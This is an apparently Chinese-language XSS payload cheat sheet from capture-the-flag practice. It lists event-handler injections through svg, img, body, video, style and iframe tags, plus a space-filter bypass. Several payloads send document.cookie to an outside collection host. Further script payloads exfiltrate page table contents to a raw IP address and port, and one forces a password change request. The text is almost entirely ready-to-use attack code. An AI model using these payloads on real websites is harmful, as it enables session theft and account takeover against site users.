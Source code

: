 ```html
	 <svg onload="alert(1)"//
     <svg onload="location.href='http://www.8fc85e6220bc.space/collect?c='+document.cookie"/>
	------------------------------
 <img>标签：
	------------------------------
	 <img  src=1  οnerrοr=alert("hack")>
	 <img  src=1  οnerrοr=alert(document.cookie)>  #弹出cookie
     <img src="" οnerrοr=location.href="http://www.8fc85e6220bc.space/collect?cookie="+document.cookie>

	------------------------------
<body>标签：
	------------------------------
	 <body οnlοad=alert(1)>
	 <body οnpageshοw=alert(1)>
     <body onload=location.href='http://www.8fc85e6220bc.space/collect?cookie='+document.cookie></body>
     <body/**/onload=location.href='http://www.8fc85e6220bc.space/collect?cookie='+document.cookie></body>
     <body/onload=location.href='http://www.8fc85e6220bc.space/collect?cookie='+document.cookie></body>
	------------------------------
<video>标签：
	------------------------------
	 <video οnlοadstart=alert(1) src="/media/hack-the-planet.mp4" />
	------------------------------
<Style>标签：
	------------------------------
	 <style οnlοad=alert(1)></style>
	------------------------------
<iframe onload=document.location='http://www.8fc85e6220bc.space/collect?cookie='+document.cookie>'
-----------------------------------------------
    空格过滤：用【/**/】
------------------------------------------------
    
    


```

  [nc来监控](https://blog.csdn.net/Jayjay___/article/details/133375048)

```javascript
<script>window.open('http://43.154.113.116:9033/'+document.getElementsByClassName('layui-table-cell laytable-cell-1-0-1')[1].innerHTML)</script>

<script>$('div.layui-table-cell.laytable-cell-1-0-1').each(function(index,value){if(value.innerHTML.indexOf('ctfshow{')>-1){window.location.href='http://43.154.113.116:9033/'+value.innerHTML;}});</script>

<script>$('div.layui-table-cell.laytable-cell-1-0-1').each(function (index, value) {if ((value.innerHTML.indexOf('ctfshow{') > -1)&&(value.innerHTML.indexOf('script') === -1)) {window.location.href = 'http://43.154.113.116:9033/' +value.innerHTML;}});</script>

<script>var img = new Image();img.src = "http://43.154.113.116:9033/"+document.querySelector('#top > div.layui-container > div:nth-child(4) > div > div.layui-table-box > div.layui-table-body.layui-table-main').textContent;document.body.append(img);</script>

<script>window.location.href='http://127.0.0.1/api/change.php?p=1111111';</script>

<script>$.ajax({url:"api/change.php",method:"POST",data:{'p':'1717'}})</script>

```